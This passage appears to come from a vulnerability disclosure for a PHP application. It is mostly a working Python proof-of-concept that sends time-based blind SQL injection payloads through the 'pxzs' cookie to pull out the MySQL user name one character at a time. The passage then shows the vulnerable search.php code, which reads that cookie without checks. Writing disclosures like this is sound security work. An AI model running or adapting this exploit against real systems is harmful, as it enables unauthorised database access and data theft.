 ```python
    rlen = 0

    print("Start\n")

    for i in range(1,100):
        pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-length(user()))*1)))nFXY)" %i
        cookies["pxzs"] = pxzs
        starttime = time.time()

        res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
        if time.time() - starttime > 1:
            rlen = i - 1
            print("the length of user is : %d\n" %rlen)
            break

    for j in range(1, rlen+1):
        for payload in payloads:
            char = ord(payload) + 1
            starttime = time.time()
            pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-(select conv(hex(mid(user(),%d,1)),16,10)))*1)))nFXY)" %(char, j)
            cookies["pxzs"] = pxzs
            res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
            if time.time() - starttime > 1:
                result += payload
                print('current user is:', result)
                break
            else:
                pass
    print('\n[Finally] current user is %s' % result)

if __name__ == '__main__':
    host = '172.18.120.76'
    zs_sqli(host)    

```

got the mysql current user as:

![image-20180915203543131](/Users/kunkun/Library/Application Support/typora-user-images/image-20180915203543131.png)



------

## 2. SQL Injection in zs/search.php with parameter $px

the following code got $px from cookie without any checking bettween line 8  and 20

```php
if (isset($_GET["px"])){
$px=$_GET["px"];
	if ($px!='hit' && $px!='id' && $px!='sendtime'){
	$px="sendtime";
	}
setcookie("pxzs",$px,time()+3600*24*360);
}else{
	if (isset($_COOKIE["pxzs"])){
	$px=$_COOKIE["pxzs"];
	}else{
	$px="sendtime";
	}
}
```
